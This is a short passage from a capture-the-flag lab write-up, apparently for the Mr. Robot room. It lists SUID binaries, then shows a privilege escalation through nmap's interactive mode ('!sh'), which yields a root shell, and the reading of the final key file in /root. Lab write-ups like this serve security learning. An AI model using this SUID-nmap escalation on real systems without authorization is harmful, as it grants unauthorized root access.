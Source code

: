 ```
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown

```
GTFObins say nmap is suspicious and therefore

```
robot@linux:~$ nmap --interactive     
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)

```
Grab the last key

```
# cd /root
cd /root
# ls -al
ls -al
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat key-3-of-3.txt
cat key-3-of-3.txt
...

```
Incredible room!

```
# echo "leave me here!" > readme.txt
```
Goodbye friend!




